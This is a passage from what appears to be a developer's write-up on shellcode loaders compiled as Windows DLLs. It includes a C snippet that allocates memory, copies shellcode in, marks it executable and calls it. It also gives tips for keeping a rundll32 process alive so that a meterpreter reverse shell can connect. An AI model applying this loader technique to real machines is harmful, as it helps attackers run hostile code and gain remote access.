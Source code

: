 
or by casting it to a function pointer and invoking that function.

```c
    exec = VirtualAlloc(0, lensh, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	memcpy(exec, shellcode, lensh);
    VirtualProtect(exec, lensh, PAGE_EXECUTE_READ, &oldprotect);
	((void(*)())exec)();
```


The latter didn't work for me and timed out the msfconsole handler, but only when compiled as a DLL! When compiling the code as an .exe the shellcode worked just fine. Not sure why this is. Changing threading compilation flags was my first guess but did not seem to solve the issue.

This is the output of the handler when trying to connect:

![](pics/dll_code_nonThreadedShellcodeStart.png)

It is simply sitting there, timing out and dying. Poor thing.

Also, when starting the _threaded shellcode_ dll through rundll32.exe, the code has to have either an endless loop or a sleep after the `CreateThread` call. If this is not in place, the DLL function seems to exit and kills the process while the meterpreter reverse shell hasn't even been established. Another option is simply calling a non existing method. This pops up an error _MessageBox_ that keeps the process alive. Obviously this is only an option while testing.
